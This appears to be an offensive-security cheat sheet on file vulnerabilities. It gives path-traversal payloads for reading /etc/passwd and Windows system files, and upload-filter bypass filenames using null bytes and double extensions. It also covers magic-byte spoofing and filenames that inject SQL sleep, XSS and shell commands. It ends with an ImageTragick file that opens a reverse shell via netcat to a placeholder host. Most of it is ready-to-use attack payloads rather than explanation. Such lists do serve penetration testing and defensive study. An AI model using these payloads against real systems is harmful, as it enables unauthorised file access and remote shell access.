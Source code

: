 # File Vulnerabilities

## LFI

local file inclusion happens when it is possible to access files stored on the target's system by passing a relative path to a parameter of a request. The number of "up one level instructions" is irrelevant because once we reach the root level, the additional "go up" instructions will be ignored.

See LFI List for a list of possible target files for tests

```
#Linux
../../../../../../../../../../../../etc/passwd
#Windows
..\..\..\..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\..\..\..\boot.ini
```

## File upload functionality

### Evade file restrictions

Changing the content type header when trying to upload reverse shells can bypass simple files detection systems.

These strings are effective in evading file upload checks only if the server does not check the actual file signature but checks only the extension.

```php
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```

### Magic bytes

To bypass file control insert the following bytes sequences at the beginning of the file to change its type and edit file extension accordingly.

```php
python -c "print '<signature>'" > <file>
#hex signature example: \x4D\x5A
```

| File type                       | Mnemonic            | Signature                                    |
| ------------------------------- | ------------------- | -------------------------------------------- |
| DOS executable                  | "MZ"&#xD;           | 0x4D 0x5A&#xD;                               |
| PE32 executable                 | "MZ"...."PE.."&#xD; | 0x4D 0x5A ... 0x50 0x45 0x00 0x00&#xD;       |
| Mach-O Executable (32 bit)      | "FEEDFACE"&#xD;     | 0xFE 0xED 0xFA 0xCE&#xD;                     |
| Mach-O Executable (64 bit)&#xD; | "FEEDFACF"&#xD;     | 0xFE 0xED 0xFA 0xCF&#xD;                     |
| ELF Executable&#xD;             | ".ELF"&#xD;         | 0x7F 0x45 0x4C 0x46&#xD;                     |
| Zip Archive&#xD;                | "PK.."&#xD;         | 0x50 0x4B 0x03 0x04&#xD;                     |
| Rar Archive&#xD;                | "Rar!...."&#xD;     | 0x52 0x61 0x72 0x21 0x1A 0x07 0x01 0x00&#xD; |
| Ogg Container&#xD;              | "OggS"&#xD;         | 0x4F 0x67 0x67 0x53&#xD;                     |
| Matroska/EBML Container&#xD;    | N/A                 | 0x45 0x1A 0xA3 0xDF&#xD;                     |
| PNG Image&#xD;                  | ".PNG...."&#xD;     | 0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A&#xD; |
| BMP Image&#xD;                  | "BM"&#xD;           | 0x42 0x4D&#xD;                               |
| GIF Image&#xD;                  | "GIF87a"&#xD;       | 0x47 0x49 0x46 0x38 0x37 0x61&#xD;           |
| GIF Image&#xD;                  | "GIF89a"&#xD;       | 0x47 0x49 0x46 0x38 0x39 0x61                |

## Malicious filenames

```
../../../tmp/lol.png 
sleep(10)-- -.jpg 
<svg onload=alert(document.comain)> 
; sleep 10;
```

## ImageTrick vulnerability

Save this code snippet in a text file and upload it to receive a reverse shell

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/image.jpg"|nc -e /bin/sh <IP> "<PORT>)'
pop graphic-context
```


